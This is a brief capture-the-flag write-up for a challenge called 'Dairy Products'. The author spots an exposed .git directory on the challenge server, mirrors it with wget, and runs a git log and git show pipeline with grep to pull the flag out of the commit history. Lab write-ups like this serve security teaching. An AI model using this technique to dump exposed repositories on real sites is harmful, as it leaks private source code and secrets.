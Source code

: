 # Dairy Products

On the main page, there was huge label
> ## git milk?

So before trying to do anything, I opened `http://142.93.3.19:50008/.git`
![Git](1.png)

It was a git directory, So we can download it and get all history!

I've used `wget -r --no-parent http://142.93.3.19:50008/.git/` command to download the directory.

After downloading the directory, I have used this commad to retrive the flag.

> `git log | grep commit | cut -d ' ' -f2 | while read line; do echo zzzz; git show $line; done | grep -i "{.*}"`

* git log is used to get commit history.
* then the output of `git log` will be passed to `grep commit` to get commit ID.
* we only need the commit ID, so we can use cut command to get 2nd column. 
* for all commits, we can use `git show <commit_id>` to get changes of that commit.
* And we know that the flag is in the format of `[A-Z]*{.*}` we can use grep to get the flag!

![Flag](2.png)

> ### LLS{you_gitm_gotm_good_partner}
